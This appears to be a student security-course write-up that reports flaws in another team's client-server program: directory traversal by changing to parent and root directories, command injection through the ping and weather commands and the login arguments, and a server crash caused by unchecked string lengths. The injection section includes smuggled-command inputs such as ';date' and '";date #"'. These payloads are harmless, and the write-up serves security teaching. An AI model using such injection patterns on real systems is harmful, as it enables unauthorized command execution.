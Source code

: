 ## Team7

### Directory Traversal

* No home folders created ?
```
login n
Enter password
pass 1
You've logged in
ls
total 468
-rwxr-x--- 1 njaganna njaganna 116840 Mar 15 18:53 client
-rw-rw-r-- 1 njaganna njaganna  35147 Mar 14 19:49 LICENSE
-rw-rw-r-- 1 njaganna njaganna   1037 Mar 14 19:49 Makefile
drwxr-x--- 2 njaganna njaganna   4096 Mar 15 18:53 obj
-rwxr-x--- 1 njaganna njaganna 305200 Mar 15 18:53 server
-rw-rw-r-- 1 njaganna njaganna    328 Mar 15 19:22 sploit.conf
drwxrwxr-x 2 njaganna njaganna   4096 Mar 14 19:49 src
cd ..
/u/antor/u6/njaganna/CS527Phase2/team7
cd ..
/u/antor/u6/njaganna/CS527Phase2
cd /
/

```

### Command Injection

* ping command doesn't filter ';'

```
ping google.com -c 1";date #"
Thu Mar 15 20:14:21 EDT 2018
```

* weather also has a similar vulnerability
```
weather gotham";date #"
Thu Mar 15 20:21:34 EDT 2018
```

* After the user is logged in, all commands which do not match any predefined command are passed to the shell. Commands are checked to see if they are valid commands using regex, but argumnets are only checked for special characters.
```
login n
Enter password
pass 1
You've logged in
login
login: Cannot possibly work without effective root
login ;date
Sat Mar 17 10:44:13 EDT 2018

```

###  Server crash

* login and pass commands do not check if parameters are present or not. This causes the server to crash. As multiple clients are handled using threads, the whole server crashes.
```C
if (command == "login"){
  current_uname = commandLine.substr(6); // Tries to access 6ht position which doesn't exist.
  
if (command == "pass"){
  string pass = commandLine.substr(5); // Similar
```
```
mc08 54 $ ./server 
terminate called after throwing an instance of 'std::out_of_range'
  what():  basic_string::substr: __pos (which is 6) > this->size() (which is 5)
Aborted (core dumped)
mc08 55 $
```
